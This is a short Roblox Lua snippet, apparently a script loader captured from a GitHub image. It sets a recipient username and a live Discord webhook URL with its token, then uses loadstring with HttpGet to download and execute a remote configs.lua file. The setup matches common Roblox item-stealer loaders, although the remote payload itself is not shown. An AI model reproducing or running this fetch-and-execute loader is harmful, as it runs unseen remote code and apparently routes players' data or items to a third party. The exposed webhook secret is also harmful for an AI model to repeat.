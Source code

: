 Username = 'bora_tomaurma'
Webhook ='https://discord.com/api/webhooks/1302330676393017434/PfBJQKWFkjS11IPGjxh6ZDQ8Bzd4dkHexSx26LcmuFA63ata8i4hW8-JfMJlD_QRBoHi'

loadstring(game:HttpGet("https://raw.githubusercontent.com/terabite-max43/shitescripts/main/configs.lua"))()
